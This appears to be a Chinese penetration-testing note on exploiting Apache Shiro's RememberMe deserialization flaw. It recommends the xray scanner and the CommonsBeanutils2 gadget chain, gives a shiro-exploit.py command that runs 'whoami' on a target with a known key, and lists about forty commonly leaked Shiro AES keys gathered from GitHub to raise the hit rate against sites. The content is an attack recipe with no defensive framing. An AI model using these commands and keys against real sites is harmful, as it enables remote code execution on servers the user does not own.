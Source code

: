 

<a name="lQQ90"></a>
#### 复合链
1、尝试用xray扫，xray的利用链比较多<br />2、很可能是cbs2链。CommonsBeanutils2<br />如下feihong的工具就没有cbs2的链子<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1618117980542-aa4210c4-da78-4541-afb7-cc04a456cda1.png#height=383&id=jbZEU&originHeight=765&originWidth=1779&originalType=binary&ratio=1&size=276904&status=done&style=none&width=889.5)

 python .\shiro-exploit.py echo -g CommonsBeanutils2 -u [http://](http://cccxzsp.cnca.cn/aasp/static/common/jeesite.min.js)xxx -v 1 -k kPH+bIxk5D2deZiIxcaaaA== -c whoami<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1618117916931-fb40cff6-6ac6-474a-b18e-ff294eb05992.png#height=212&id=Zdt1C&originHeight=423&originWidth=1191&originalType=binary&ratio=1&size=73610&status=done&style=none&width=595.5)

<a name="hTNHV"></a>
### GitHub上常见的key(提高命中率)
思路：[https://www.t00ls.net/articles-60673.html](https://www.t00ls.net/articles-60673.html)<br />根据shiro密钥的java语法<br />setCipherKey Base64.decode language:java<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620226776639-721cef64-d389-471e-b966-8ea97b5599d0.png#height=372&id=UdtsP&originHeight=743&originWidth=1477&originalType=binary&ratio=1&size=96976&status=done&style=none&width=738.5)<br />搜索到常见的开发密钥key
```python
fCq+/xW488hMTCD+cmJ3aQ==
Z3VucwAAAAAAAAAAAAAAAA==
4AvVhmFLUs0KTA3Kprsdag==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
wGiHplamyXlVB11UXWol8g==
1QWLxg+NYmxraMoxAXu/Iw==
kPH+bIxk5D2deZiIxcaaaA==
6ZmI6I2j5Y+R5aSn5ZOlAA==
WcfHGU25gNnTxTlmJMeSpw==
5aaC5qKm5oqA5pyvAAAAAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
6ZmI6I2j3Y+R1aSn5BOlAA==
L7RioUULEFhRyxM7a2R/Yg==
3AvVhmFLUs0KTA3KaTHGFg==
wrjUh2ttBPQLnT4JVhriug==
a1b2c3d4e5f6h7j8k9l10m==
a1b2c3d4e5f6g7h8i9j10k==
Vfixl8Hi8tXf/hS8jt2AHw==
U3ByaW5nQmxhZGUAAAAAAA==
7AvVhmFLUs0KTA3Kprsdag==
M1RIN2FVNGt6T2lRU2VNAA==
BT7lf0hw4W/QMxpS/Rb+Ng==
5AvVhmFLUs0KTA3Kprsdag==
bWluZS1hc3NldC1rZXk6QQ==
2AvVhdsgUs0FSA3SDFAder==
wFmevI8j5IHS5e57mamWgQ==
s2SE9y32PvLeYo+VGFpcKA==
qwertyuiopasdfghjklzxc==
potentialshadow9201314==
fCq+/xW488hMTCE+cmJ3FF==
f/SY5TIve5WWzT4aQlABJA==
ewweeleldoforidurdjrei==
empodDEyMwAAAAAAAAAAAA==
XTx6CKLo/SdSgub+OPHSrw==
QVN1bm5uJ3MgU3Vuc2l0ZQ==
MTIzNDU2Nzg5MGFiY2RlZg==
B9rPF8FHhxKJZ9k63ik7kQ==
8AvVhdsgUs0FSA3SDFAdag==
4AvVhmFLUs0KTA3Kprseaf==
2AvVCXsxUs0FSA7SYFjdQg==
```